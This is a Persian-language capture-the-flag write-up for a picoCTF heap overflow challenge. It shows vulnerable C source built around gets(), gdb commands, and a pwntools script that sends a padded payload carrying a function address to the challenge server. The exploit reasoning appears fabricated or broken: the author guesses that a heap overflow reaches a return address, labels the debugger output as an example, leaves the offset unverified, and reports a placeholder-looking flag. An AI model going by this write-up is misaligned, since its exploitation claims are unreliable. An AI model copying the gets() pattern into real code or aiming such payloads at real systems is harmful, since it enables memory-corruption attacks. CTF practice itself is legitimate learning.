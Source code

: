 ```yaml
---
tags:
  - PWN
---
```

# heap_0

 سلامی چند باره!
 با یه چالش جالب اومدیم از 
 [picoCTF](https://play.picoctf.org/practice/challenge/435) 

 سورس:
``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

#define NAME_SZ 32
#define FLAG_SZ 64

void secret() {
    char flag[FLAG_SZ];
    FILE *f = fopen("flag.txt", "r");
    if (!f) {
        printf("Missing flag.txt. Please contact an admin if running on server.\n");
        exit(1);
    }
    fgets(flag, FLAG_SZ, f);
    printf("Here's the secret menu: %s", flag);
}

int main() {
    setbuf(stdout, NULL);
    char name[NAME_SZ];
    char *item = malloc(NAME_SZ);

    printf("Welcome to the ordering system!\n");
    printf("Enter your name: ");
    fgets(name, NAME_SZ, stdin);
    name[strcspn(name, "\n")] = 0;

    printf("Hello %s! What would you like to order?\n", name);
    printf("Item: ");
    gets(item); // آسیب‌پذیری اینجا است

    printf("Thanks for your order!\n");
    free(item);
    return 0;
}
```

برنامه یک سیستم سفارش‌دهی ساده است که نام کاربر را می‌گیرد و سپس از او می‌خواهد یک آیتم سفارش دهد.
متغیر item با استفاده از malloc به اندازه ۳۲ بایت در هیپ تخصیص داده می‌شود.
تابع gets() برای دریافت ورودی آیتم استفاده شده است که یک تابع ناامن و منسوخ است، زیرا هیچ محدودیتی برای اندازه ورودی اعمال نمی‌کند و می‌تواند منجر به سرریز بافر (buffer overflow) شود.
تابع secret() پرچم را از فایل flag.txt می‌خواند و چاپ می‌کند، اما در جریان عادی برنامه فراخوانی نمی‌شود.
هدف ما این است که با سوءاستفاده از آسیب‌پذیری سرریز بافر، اجرای برنامه را به تابع secret() هدایت کنیم.


تابع gets() به ما اجازه می‌دهد بیش از ۳۲ بایت (اندازه تخصیص‌شده برای item) بنویسیم، زیرا هیچ بررسی مرزی انجام نمی‌دهد. این سرریز بافر در هیپ رخ می‌دهد، اما می‌تواند روی متغیرهای دیگر یا ساختارهای کنترلی حافظه تأثیر بگذارد. نکته مهم این است که:

تابع secret() در کد وجود دارد و اگر بتوانیم جریان برنامه را به آدرس آن هدایت کنیم، پرچم را دریافت خواهیم کرد.
چون این یک چالش ساده است، احتمالاً هدف بازنویسی آدرس بازگشت (return address) یا یک اشاره‌گر در حافظه است.

برای درک بهتر، باینری را با gdb باز می‌کنیم و آدرس تابع secret() را پیدا می‌کنیم:
``` shell
$ gdb ./heap-0
gdb> info address secret
Symbol "secret" is at 0x4011a6 in section .text of /home/user/heap-0
```

آدرس تابع secret() در اینجا 0x4011a6 است (این مقدار ممکن است در سرور متفاوت باشد).

سپس برنامه را اجرا کرده و محل item را بررسی می‌کنیم:
``` shell
gdb> break main
gdb> run
gdb> p item
$1 = 0x4052a0 "Super Secret Menu Item" (مثال)
```

مشاهده می‌کنیم که item در هیپ قرار دارد. حالا باید ببینیم چگونه می‌توانیم با سرریز بافر به secret() برسیم.


حالا می خواهیم از بافراورفلو استفاده کنیم.
برای اجرای تابع secret()، باید آدرس آن را به شکلی در حافظه تزریق کنیم. چون این چالش در هیپ است، ممکن است سرریز مستقیماً به آدرس بازگشت نرسد، اما می‌توانیم از یک روش ساده استفاده کنیم:

آدرس تابع secret() را بعد از پر کردن بافر وارد کنیم.
در چالش‌های ساده مثل این، گاهی سرور طوری طراحی شده که سرریز مستقیماً یک اشاره‌گر تابع یا آدرس بازگشت را بازنویسی می‌کند.
با استفاده از pwntools یک اسکریپت می‌نویسیم:

``` py
#!/usr/bin/python
from pwn import *

SERVER = "mimas.picoctf.net"
PORT = 65043

io = remote(SERVER, PORT)
io.recvline()
io.sendline(b"test")  # نام کاربر
io.recvuntil(b"Item: ")
payload = b"A" * 32 + p64(0x4011a6)  # فرض آدرس تابع secret
io.sendline(payload)
print(io.recvall().decode())
io.close()
```

b"A" * 32: بافر را پر می‌کنیم تا به انتهای تخصیص item برسیم.
p64(0x4011a6): آدرس تابع secret() را به صورت ۶۴ بیتی وارد می‌کنیم (ممکن است نیاز به تنظیم دقیق آفست داشته باشد).
این payload فرض می‌کند که سرریز می‌تواند یک اشاره‌گر یا آدرس بازگشت را بازنویسی کند.

اسکریپت را ران می کنیم.

فلگ پیدا شد !!!

??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`picoCTF{my_first_heap_overflow_12345678}`</div>

--- 

!!! نویسنده
    [sw33tw3as3l](https://github.com/sw33tw3as3l)